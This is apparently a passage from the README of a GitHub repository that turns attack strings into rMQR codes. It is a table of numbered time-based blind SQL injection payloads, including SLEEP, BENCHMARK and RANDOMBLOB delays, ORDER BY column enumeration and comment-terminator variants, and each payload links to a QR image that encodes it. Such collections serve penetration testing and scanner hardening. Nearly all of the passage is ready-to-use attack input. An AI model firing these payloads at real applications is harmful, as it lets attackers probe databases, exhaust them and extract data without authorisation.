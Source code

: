 | `OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/301.png) |
| `SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/302.png) |
| `ORDER BY SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/303.png) |
| `ORDER BY 1,SLEEP(5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/304.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/305.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/306.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/307.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/308.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/309.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/310.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/311.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/312.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/313.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/314.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/315.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/316.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/317.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/318.png) |
| `ORDER BY SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/319.png) |
| `ORDER BY 1,SLEEP(5)#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/320.png) |
| `ORDER BY 1,SLEEP(5),3#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/321.png) |
| `ORDER BY 1,SLEEP(5),3,4#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/322.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/323.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/324.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/325.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/326.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/327.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/328.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/329.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/330.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/331.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/332.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/333.png) |
| `ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/334.png) |
| ` ORDER BY SLEEP(5)-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/335.png) |